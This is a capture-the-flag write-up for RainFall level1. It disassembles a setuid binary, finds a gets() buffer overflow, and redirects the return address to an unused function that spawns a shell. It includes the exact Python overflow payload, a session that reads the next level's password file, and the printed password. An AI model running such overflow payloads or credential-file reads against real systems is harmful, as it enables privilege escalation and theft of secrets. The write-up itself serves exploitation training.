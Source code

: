 # Preparations

Entering level1 home directory we see a level1 binary with sticky bit in access rights.
By objdumping the binary we see 2 functions: main and run:

	level1@RainFall:~$ objdump -D -M intel-mnemonic level1 > /tmp/dump

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Code writing

We start to work with gdb in Intel syntax (set disassembly-flavor intel):

	(gdb) disass main
	Dump of assembler code for function main:
	   0x08048480 <+0>:	push   ebp
	   0x08048481 <+1>:	mov    ebp,esp
	   0x08048483 <+3>:	and    esp,0xfffffff0
	   0x08048486 <+6>:	sub    esp,0x50
	   0x08048489 <+9>:	lea    eax,[esp+0x10]		;preparations to gets
	   0x0804848d <+13>:	mov    DWORD PTR [esp],eax	;arguments for gets
	   0x08048490 <+16>:	call   0x8048340 <gets@plt>	;call gets
	=> 0x08048495 <+21>:	leave
	   0x08048496 <+22>:	ret

So main will look like:

	int	main(void)
	{
		char buffer[64];
		gets(buffer);
	}

Let's look in the run function:

	(gdb) disass run
	Dump of assembler code for function run:
	   0x08048444 <+0>:	push   ebp
	   0x08048445 <+1>:	mov    ebp,esp
	   0x08048447 <+3>:	sub    esp,0x18
	   0x0804844a <+6>:	mov    eax,ds:0x80497c0		;getting ready to fwrite, some FILE stream
	   0x0804844f <+11>:	mov    edx,eax			;getting ready to fwrite
	   0x08048451 <+13>:	mov    eax,0x8048570		;getting ready to fwrite
	   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx	;arguments for fwrite
	   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13	;arguments for fwrite
	   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1	;arguments for fwrite
	   0x0804846a <+38>:	mov    DWORD PTR [esp],eax	;arguments for fwrite
	   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>	;call fwrite
	   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584	;arguments for system
	   0x08048479 <+53>:	call   0x8048360 <system@plt>		;call system
	   0x0804847e <+58>:	leave
	   0x0804847f <+59>:	ret

Let's see some insites by their addresses:

	(gdb) x/20c 0x8048570
		0x8048570:	71 'G'	111 'o'	111 'o'	100 'd'	46 '.'	46 '.'	46 '.'	32 ' '
		0x8048578:	87 'W'	97 'a'	105 'i'	116 't'	32 ' '	119 'w'	104 'h'	97 'a'
		0x8048580:	116 't'	63 '?'	10 '\n'	0 '\000'
	(gdb) x/16c 0x80497c0
		0x80497c0 <stdout@@GLIBC_2.0>:	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'

Now we need to find the buffer size.

	Breakpoint 4, 0x08048490 in main ()
	(gdb) info frame
	Stack level 0, frame at 0xbffff700:
		 eip = 0x8048490 in main; saved eip 0xb7e454d3
		 Arglist at 0xbffff6f8, args:
		 Locals at 0xbffff6f8, Previous frame's sp is 0xbffff700
		 Saved registers:
		  ebp at 0xbffff6f8, eip at 0xbffff6fc
		(gdb) nexti
	(gdb) x/80x 0xbffff6a0
		0xbffff6a0:	0xbffff6b0	0x0000002f	0xbffff6fc	0xb7fd0ff4
		0xbffff6b0:	0x080484a0	0x0804978c	0x00000002	0x08048321
		0xbffff6c0:	0xb7fd13e4	0x00000016	0x0804978c	0x080484c1
		0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
		0xbffff6e0:	0xb7fed280	0x00000000	0x080484a9	0xb7fd0ff4
		0xbffff6f0:	**0x080484a0**	0x00000000	0x00000000	**0xb7e454d3**
		0xbffff700:	0x00000002	0xbffff794	0xbffff7a0	0xb7fdc858
		0xbffff710:	0x00000000	0xbffff71c	0xbffff7a0	0x00000000
		0xbffff720:	0x08048230	0xb7fd0ff4	0x00000000	0x00000000
	(gdb) print 0xbffff6f0 - 0xbffff6b0
		$23 = 64

And till the saved `eip` there are 64 + 4 * 3 = 76 bytes.

Numbers in hex are transferred to decimal with the help of programming calculator and finally we write the code in C.

# Exploitation

The function `run` is not called in the binary. But we have buffer that can be overwritten and saved eip address can be changed to the address of the run function. Address of the run function is 0x08048444 = “\x44\x84\x04\x08”:

	(gdb) disass run
	Dump of assembler code for function run:
	   **0x08048444** <+0>:	push   ebp
	   0x08048445 <+1>:	mov    ebp,esp
	   0x08048447 <+3>:	sub    esp,0x18
		...
	   0x0804847e <+58>:	leave
	   0x0804847f <+59>:	ret

Therefore we use the following injection:

	level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/try

That will help us to break the level.

# Result

	level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/try
	level1@RainFall:~$ cat /tmp/try - | ./level1
	Good... Wait what?
	whoami
	level2
	cat /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

Why do we use `cat -` command? Because even if we break the level and call shell, binary is "limited" and can not give us terminal. For that reason we use option of `cat` that helps us to use stdin where shell is called after exploitation.
